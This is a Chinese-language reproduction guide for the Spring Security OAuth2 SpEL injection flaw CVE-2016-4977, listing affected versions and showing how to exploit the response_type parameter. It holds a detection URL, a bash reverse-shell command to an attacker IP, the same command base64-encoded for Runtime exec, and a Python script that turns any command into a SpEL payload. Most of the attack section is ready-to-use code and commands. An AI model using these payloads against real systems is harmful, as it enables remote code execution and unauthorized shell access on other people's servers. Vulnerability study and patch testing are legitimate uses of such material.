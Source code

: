 # Spring Security OAuth2 远程命令执行漏洞（CVE-2016-4977）

# 漏洞描述

**Spring Security OAuth2处理认证请求的时候如果使用了whitelabel视图，response_type参数值会被当做Spring SpEL来执行，恶意攻击者通过构造response_type值可以触发远程代码执行漏洞**



# 影响版本

Spring Security OAuth 2.3到2.3.2

Spring Security OAuth 2.2到2.2.1

Spring Security OAuth 2.1到2.1.1

Spring Security OAuth 2.0到2.0.14



# 漏洞复现

**ip修改对方网站ip，执行的命令即为括号内的2\*3**

**检测POC**

```html
http://your-ip:8080/oauth/authorize?response_type=${2*3}&client_id=acme&scope=openid&redirect_uri=http://test
```

拼接访问之后发现执行成功，如下图：

![img](https://img-blog.csdnimg.cn/fbb458890c564d898adbdf95b762410e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA56eN5qCR5Lq6MQ==,size_20,color_FFFFFF,t_70,g_se,x_16)

# **反弹shell**

**此处需要使用到python脚本来生成要执行的payload**

**使用python3运行脚本，然后输入反弹shell的命令即可生成paylaod**



**反弹shell命令如下:           ip修改为自己的**

```bash
bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/1122 0>&1
```

**将反弹shell命令进行bash64编码**

**乱码即为反弹shell的命令，修改为自己的**

```bash
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3h4eC54eHgueHh4Lnh4eC8xMTIyIDA+JjE=}|{base64,-d}|{bash,-i}
```

使用脚本生成payload，如下图

![image-20220428184327217](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220428184327217.png)

**payload生成好之后，将${2\*3}替换为生成的payload即可反弹shell**

```
http://your-ip:8080/oauth/authorize?response_type=${2*3}&client_id=acme&scope=openid&redirect_uri=http://test
```

**利用kali监听，在url处拼接，进行访问，反弹shell**

![image-20220428184538854](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220428184538854.png)

成功getshell



# Payload

```python
#!/usr/bin/env python

message = input('Enter message to encode:')

poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])

for ch in message[1:]:
    poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch)

poc += ')}'

print(poc)
```

